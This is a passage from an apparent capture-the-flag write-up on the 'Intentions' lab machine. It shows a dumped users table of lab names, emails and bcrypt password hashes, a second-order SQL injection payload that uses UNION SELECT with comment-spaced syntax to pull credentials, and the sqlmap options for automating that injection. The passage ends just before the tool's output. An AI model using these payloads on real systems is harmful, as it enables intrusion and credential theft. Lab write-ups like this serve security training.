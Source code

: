     Macy Walter:tschmidt@example.org:0:$2y$10$01SOJhuW9WzULsWQHspsde3vVKt6VwNADSWY45Ji33lKn7sSvIxIm:food,travel,nature
    Prof. Devan Ortiz DDS:murray.marilie@example.com:0:$2y$10$I7I4W5pfcLwu3O/wJwAeJ.xqukO924Tx6WHz1am.PtEXFiFhZUd9S:food,travel,nature
    Eula Shields:barbara.goodwin@example.com:0:$2y$10$0fkHzVJ7paAx0rYErFAtA.2MpKY/ny1.kp/qFzU22t0aBNJHEMkg2:food,travel,nature
    Mariano Corwin:maggio.lonny@example.org:0:$2y$10$p.QL52DVRRHvSM121QCIFOJnAHuVPG5gJDB/N2/lf76YTn1FQGiya:food,travel,nature
    Madisyn Reinger DDS:chackett@example.org:0:$2y$10$GDyg.hs4VqBhGlCBFb5dDO6Y0bwb87CPmgFLubYEdHLDXZVyn3lUW:food,travel,nature
    Jayson Strosin:layla.swift@example.net:0:$2y$10$Gy9v3MDkk5cWO40.H6sJ5uwYJCAlzxf/OhpXbkklsHoLdA8aVt3Ei:food,travel,nature
    Zelda Jenkins:rshanahan@example.net:0:$2y$10$/2wLaoWygrWELes242Cq6Ol3UUx5MmZ31Eqq91Kgm2O8S.39cv9L2:food,travel,nature
    Eugene Okuneva I:shyatt@example.com:0:$2y$10$k/yUU3iPYEvQRBetaF6GpuxAwapReAPUU8Kd1C0Iygu.JQ/Cllvgy:food,travel,nature
    Mrs. Rhianna Hahn DDS:sierra.russel@example.com:0:$2y$10$0aYgz4DMuXe1gm5/aT.gTe0kgiEKO1xf/7ank4EW1s6ISt1Khs8Ma:food,travel,nature
    Viola Vandervort DVM:ferry.erling@example.com:0:$2y$10$iGDL/XqpsqG.uu875Sp2XOaczC6A3GfO5eOz1kL1k5GMVZMipZPpa:food,travel,nature
    Prof. Margret Von Jr.:beryl68@example.org:0:$2y$10$stXFuM4ct/eKhUfu09JCVOXCTOQLhDQ4CFjlIstypyRUGazqmNpCa:food,travel,nature
    Florence Crona:ellie.moore@example.net:0:$2y$10$NDW.r.M5zfl8yDT6rJTcjemJb0YzrJ6gl6tN.iohUugld3EZQZkQy:food,travel,nature
    Tod Casper:littel.blair@example.org:0:$2y$10$S5pjACbhVo9SGO4Be8hQY.Rn87sg10BTQErH3tChanxipQOe9l7Ou:food,travel,nature
    0xdf:0xdf@intentions.htb:0:$2y$10$YUmJGH/nZwMGYmrz.TqDHOtpq1VK4xrw87YtsEJhaobmQ23pY7AbW:')/**/UNION/**/SELECT/**/1,2,concat(name,':',email,':',password,':',genres),4,5/**/from/**/users#


I'll note the top two, steve and greg, have the "admin" attribute set to
1.

### SQL Injection \[sqlmap\]

#### Identify

I've shown exploiting a complicated second-order SQL injection with
`sqlmap` before, five years ago in
[Nightmare](/second-order-sql-injection-on-htb-nightmare.md#nightmare-sqli-with-sqlmap).

I can do all the steps above with `sqlmap`. I'll need a couple things:

-   Save request setting genres without any injection and only a single
    genre to a file, `genres.request`.
-   Save a request fetching the user feed to a file, `feed.request`.

I'll do this in Burp by right clicking and selecting "Copy to file".
This is preferred over giving it the URL because then the cookies and
other headers will match.

The `sqlmap` syntax has updated over the last five years since
Nightmare. `--second-order` is deprecated in favor of `--second-req`.
I'll give it `--tamper=space2comment` (sqlmap will fail without this for
the reasons seen above, but it will also suggest trying this tamper).
I'll also give it `--technique=U` to limit to union injections. It will
find the union without this, but it'll go faster since I know this is
possible. I will need to increase the `--level 5`, which is the max.
With all of this, it finds the injection:
